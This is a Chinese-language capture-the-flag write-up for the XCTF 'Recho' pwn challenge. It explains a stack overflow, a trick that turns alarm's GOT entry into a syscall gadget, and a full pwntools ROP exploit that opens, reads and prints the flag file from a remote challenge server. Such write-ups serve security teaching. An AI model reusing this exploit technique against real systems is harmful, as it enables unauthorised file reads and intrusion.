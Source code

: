 # Recho


# 涉及知识

+ pwntools终止输入
+ syscall系统调用open
+ fd第一个文件为3，第二个为4

<!--more-->

# 程序分析

## 保护机制

![image.png](https://i.loli.net/2020/05/20/4hqNepXQWM6cVxu.png)

开启NX和部分RELRO

## 漏洞分析

![image.png](https://i.loli.net/2020/05/20/5ifcX6DMPGNvKhk.png)

程序逻辑很简单，就是一个简单的栈溢出。v7是任意输入的一个整型变量，其决定了读入的数据值，所以可以读入任意长度的值。

但是程序是一个死循环，只有结束了read函数后，才会跳出。ctrl + d 可以结束read函数。pwntools的shutdown('send')函数同样可以结束read函数，但是结束之后，就不能再输入payload，故我们需要一次性达到目的。

![image.png](https://i.loli.net/2020/05/20/TsSn67owYLClaxG.png)

在gdb中，给alarm打下断点，可以发现在alarm+5处有syscall系统调用可以使用。再结合flag字符串，我们很容易想到用open函数将flag文件中的值给读出来。

获得fd后，用write函数将fd中的值写入bss段中，这里选用.bss+0x500。存入.bss后，我们用printf函数或则read函数，将.bss中的内容给显示在屏幕上。

需要使用的gadget用ROPgadget来获得。

![image.png](https://i.loli.net/2020/05/20/HgrikXN59VLnWyc.png)

![image.png](https://i.loli.net/2020/05/20/EbaYKXVB1jWMRI5.png)

# EXP

````python
from pwn import *
from LibcSearcher import LibcSearcher

#sh=process('./xctf')
sh=remote('111.198.29.45',34291)
elf=ELF('./xctf')
#one gadget6
pop_rdi_ret=0x4008a3
pop_rsi_pop_r15_ret=0x4008a1 
pop_rdx_ret=0x4006fe
pop_rax_ret=0x4006fc 
add_rdi_ret=0x40070d 

flag=0x601058
alarm_got=elf.got['alarm']
alarm=elf.plt['alarm']
bss=0x601090
read=elf.plt['read']
printf=elf.plt['printf']
#make payload
payload='a'*0x38

#alarm_got=syscall
payload+=p64(pop_rdi_ret)+p64(alarm_got)
payload+=p64(pop_rax_ret)+p64(5)
payload+=p64(add_rdi_ret)

#open(flag,READONLY)
payload+=p64(pop_rdi_ret)+p64(flag)
payload+=p64(pop_rax_ret)+p64(2)
payload+=p64(pop_rdx_ret)+p64(0)
payload+=p64(pop_rsi_pop_r15_ret)+p64(0)+p64(0)
payload+=p64(alarm)

#read(flag,bss,50)
payload+=p64(pop_rdi_ret)+p64(3)
payload+=p64(pop_rsi_pop_r15_ret)+p64(bss+0x500)+p64(0)
payload+=p64(pop_rdx_ret)+p64(0x30)
payload+=p64(read)

#printf(bss)
payload+=p64(pop_rdi_ret)+p64(bss+0x500)
payload+=p64(printf)

sh.recvuntil('server!\n')
sh.sendline(str(0x200))
payload=payload.ljust(0x200,'\x00')
sh.send(payload)
sh.recv()
sh.shutdown('send')
sh.interactive()
````

# 反思

没想到syscall可以在alarm中寻找，以及将alarm_got值加5的骚操作。这道题应该算把ROP技术发挥的淋漓尽致，fd的值第一次是3，第二次是4，依次递增是一个知识盲点。

## 参考

[SCDN](https://blog.csdn.net/xidoo1234/article/details/104532070)
